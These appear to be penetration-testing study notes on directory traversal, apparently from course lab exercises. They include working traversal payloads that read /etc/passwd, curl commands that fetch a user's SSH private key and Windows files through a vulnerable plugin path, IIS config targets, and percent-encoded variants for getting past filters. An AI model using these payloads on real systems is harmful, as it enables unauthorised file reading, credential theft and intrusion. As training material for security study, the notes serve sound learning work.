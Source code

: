 ## Directory Traversal

Use `../` to navigate 1 directory backward from your current directory. If you string them together and use `cat`, you can go to root and navigate from there:

```bash
cat ../../../../../../../../../../../etc/passwd
```

### Identifying and Exploiting Directory Traversals
On Linux, `/var/www/html/` is often used as the web root. 

To start identifying all the potential directory traversals, first find all the URLS on a webpage by hovering over all buttons and links.

To make this easier, run this in the browser console on the website. It will display the URL, anchor text and whether the URL refers to an external website:
```JavaScript
const results = [
    ['Url', 'Anchor Text', 'External']
];
var urls = document.getElementsByTagName('a');
for (urlIndex in urls) {
    const url = urls[urlIndex]
    const externalLink = url.host !== window.location.host
    if(url.href && url.href.indexOf('://')!==-1) results.push([url.href, url.text, externalLink]) // url.rel
}
const csvContent = results.map((line)=>{
    return line.map((cell)=>{
        if(typeof(cell)==='boolean') return cell ? 'TRUE': 'FALSE'
        if(!cell) return ''
        let value = cell.replace(/[\f\n\v]*\n\s*/g, "\n").replace(/[\t\f ]+/g, ' ');
        value = value.replace(/\t/g, ' ').trim();
        return `"${value}"`
    }).join('\t')
}).join("\n");
console.log(csvContent)
```

Example:

URL: `http://mountaindesserts.com/meteor/index.php?page=admin.php`

You can see this uses PHP and a parameter called "page". This is probably used to display different pages too, e.g. "page=login.php". 

PHP uses _$_GET_ to manage variables via a GET request

For the above example, the URL displays a parameter and a value. Try the value as a path, and maybe you see the same page! This indicates that the web application includes information from the "page" parameter and shows it under the "admin" link. I.e. the `page=` parameter takes input and displays it. Normally, this would be a webpage file, but you can use this to navigate the directories! E.g.:

`http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd`

To display list of users.

Can potentially be used to display SSH private key and then connect using this key, e.g.:
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```

#### Windows
Instead of /etc/passwd, default is C:\Windows\System32\drivers\etc\hosts, since it is readable by all users.

More difficult, since no equivalent to /etc/passwd means no user list and no indication of where to check for SSH keys.

For IIS servers, always check:
- C:\inetpub\logs\LogFiles\W3SVC1\
- C:\inetpub\wwwroot\web.config
- Documentation of IIS to see whether there are any other potentially useful files.

For Windows IIS, it the "payload" **usuallly** does not change, e.g. to \.
```bash
curl --path-as-is 192.168.202.193:3000/public/plugins/alertlist/../../../../../../../../../../../../../../../../../Users/install.txt -v
```
Worked to display file located in C:\Users\install.txt


### Encoding Special Characters

Because `../` is a known way to abuse web applications, it is often filtered. We can use URL encoding/percent encoding to bypass this. Specifically: ASCII encoding: https://www.w3schools.com/tags/ref_urlencode.asp


| Character | From Windows 1252 | From UTF-8 |
| ----------|-------------------|------------|
| . | %2E |	%2E |
| /	| %2F |	%2F |

E.g.:
```bash
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
or
```bash
curl http://192.168.50.16/cgi-bin/%2e%2e%2F%2e%2e%2F%2e%2e%2F%2e%2e%2Fetc%2Fpasswd
```
